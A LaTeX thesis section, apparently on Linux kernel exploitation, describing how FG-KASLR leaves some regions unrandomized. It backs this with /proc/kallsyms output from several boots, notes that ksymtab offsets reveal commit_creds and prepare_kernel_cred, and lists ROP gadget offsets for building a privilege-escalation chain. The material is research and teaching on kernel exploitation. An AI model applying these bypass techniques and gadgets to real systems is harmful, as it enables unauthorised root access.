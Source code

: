 \documentclass{masterthesis}
\begin{document}
\subsection{Gathering useful gadgets}
This mitigation not being perfect presents regions within the code that are never randomized.
This differs from kernel to kernel. For example, here are several functions that are never randomized(as we can also see in the figure \ref{figure:address_graphview}):
\begin{lstlisting}
/ # grep __x86_retpoline_r15 /proc/kallsyms
ffffffffbce00dc6 T __x86_retpoline_r15
/ # grep _text /proc/kallsyms  | head -1
ffffffffbca00000 T _text
/ # grep swapgs_restore_regs_and_return_to_usermode /proc/kallsyms 
ffffffffbcc00f10 T swapgs_restore_regs_and_return_to_usermode
/ # grep ksymtab /proc/kallsyms | head -1
ffffffffbd985198 R __start___ksymtab 

/ # grep __x86_retpoline_r15 /proc/kallsyms
ffffffff8ea00dc6 T __x86_retpoline_r15
/ # grep _text /proc/kallsyms  | head -1
ffffffff8e600000 T _text
/ # grep swapgs_restore_regs_and_return_to_usermode /proc/kallsyms 
ffffffff8e800f10 T swapgs_restore_regs_and_return_to_usermode
/ # grep ksymtab /proc/kallsyms | head -1
ffffffff8f585198 R __start___ksymtab

/ #  grep __x86_retpoline_r15 /proc/kallsyms
ffffffffaa000dc6 T __x86_retpoline_r15
/ # grep _text /proc/kallsyms  | head -1
ffffffffa9c00000 T _text
/ # grep swapgs_restore_regs_and_return_to_usermode /proc/kallsyms 
ffffffffa9e00f10 T swapgs_restore_regs_and_return_to_usermode
/ # grep ksymtab /proc/kallsyms | head -1
ffffffffaab85198 R __start___ksymtab
\end{lstlisting}

The functions from \texttt{\_text base} to \texttt{\_\_x86\_retpoline\_r15}, which is \texttt{\_text+0x400dc6} are unaffected. Unfortunately, \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred} do not reside in this region, but we can still look for useful registers and memory manipulation gadgets from this point.
KPTI trampoline \texttt{swapgs\_restore\_regs\_and\_return\_to\_usermode} is unaffected.
The kernel symbol table ksymtab, starts at \texttt{\_text+0xf85198} is unaffected. In here contains the offsets that can be used to calculate the addresses of \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred}.

\begin{lstlisting}
unsigned long pop_rax_ret = image_base + 0x4d11UL; // pop rax; ret
unsigned long read_mem_pop1_ret = image_base + 0x4aaeUL; // mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
unsigned long pop_rdi_rbp_ret = image_base + 0x38a0UL; // pop rdi; pop rbp; ret;
\end{lstlisting}
\end{document}
